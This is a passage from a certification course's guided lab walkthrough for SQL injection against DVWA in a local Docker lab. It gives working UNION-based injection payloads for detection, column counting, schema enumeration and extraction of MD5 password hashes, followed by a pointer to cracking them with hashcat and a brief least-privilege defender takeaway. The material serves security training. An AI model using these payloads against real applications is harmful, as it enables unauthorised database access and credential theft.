

repository: morandeirachema/CyberCerts · page: certs/ceh/modules/15-sql-injection/lab-walkthrough/index.html · generator: mkdocs

# Module 15 — SQL Injection · Guided Lab Walkthrough

> Step-by-step against **DVWA in your own Docker lab** ([`../../labs/docker-compose.yml`](../../labs/docker-compose.yml)) — never a site you don't own. Each step: command/payload, what you should see, a hint, and the defender/PAM takeaway. Outputs are **representative**.

**Goal:** exploit SQLi by hand (understand it), confirm with sqlmap (automate it), then watch the **parameterized-query fix** shut it down.

**Target:** DVWA at `http://localhost:8081` — page *SQL Injection*. Set **DVWA Security = Low** to start. Grab your `PHPSESSID` and `security` cookies from the browser (DevTools → Application → Cookies).

---

## Part A — Manual exploitation (the understanding)

### A1. Detect
In the *SQL Injection* box, submit `1`, then `1'`.
- `1` → returns one user row (normal).
- `1'` → **you should see** a SQL error or a broken page:
```
You have an error in your SQL syntax; ... near '''' at line 1
```
**Observe:** a single quote changed the query's structure ⇒ injectable.

### A2. Count columns
Submit: `1' ORDER BY 2 -- -` then `1' ORDER BY 3 -- -`.
- `ORDER BY 2` → OK. `ORDER BY 3` → **error**. So the query has **2 columns**.

<details><summary>Hint</summary>Always include the trailing `-- -` (dash-dash-space-dash) to comment out the rest of the original query. Increment until the first error; the last working number is the column count.</details>

### A3. UNION to surface data
Submit: `1' UNION SELECT 1,2 -- -` → **you should see** `First name: 1 / Surname: 2` (both columns display). Then fingerprint:
```sql
1' UNION SELECT version(), database() -- -
```
**You should see** something like `First name: 5.7.x / Surname: dvwa`.

### A4. Enumerate schema
```sql
1' UNION SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema='dvwa' -- -
1' UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name='users' -- -
```
**You should see** the `users` table and columns `user`, `password`, `user_id`, ...

### A5. Extract credentials
```sql
1' UNION SELECT user, password FROM users -- -
```
**You should see** usernames with **MD5 password hashes**:
```
admin : 5f4dcc3b5aa765d61d8327deb882cf99
```
**Observe:** the hashes are **fast, unsalted MD5** — crack them with `hashcat -m 0` in seconds (ties to Module 20). **This is the full chain: injection → schema → data → offline crack.**

**Defender/PAM view:** the DB account DVWA uses is over-privileged and its password sits in config. In production: **least-privilege DB account** + [CCP/Conjur-delivered, CPM-rotated credential](../../defender-pam/cyberark-attack-mapping.md).

---
